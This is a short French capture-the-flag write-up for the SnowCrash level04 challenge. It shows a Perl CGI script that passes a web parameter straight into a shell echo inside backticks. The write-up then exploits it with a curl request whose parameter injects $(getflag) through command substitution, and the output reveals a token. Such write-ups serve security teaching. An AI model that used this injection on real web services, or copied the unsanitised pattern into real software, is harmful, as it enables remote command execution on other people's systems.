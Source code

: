 # LEVEL04

#### level04.pl

On trouve un fichier **level04.pl** avec comme propriètaire flag04.

```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Les scripts CGI en Perl est un petit programme perl qui sera lancé depuis un navigateur.
On peut en déduire que cela est une rêquete web, on voit localhost:4747, on peut donc avoir accès au site web via le port `4747

#### Comprendre le script PERL

```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";

# fonction x qui affiche sont paramètre dans le terminal via la commande echo
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}


x(param("x"));
```

Le but va être de faire un subshell en utilisant une commande substitution : $()


```
level04@SnowCrash:~$ curl 127.0.0.1:4747/?x='$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

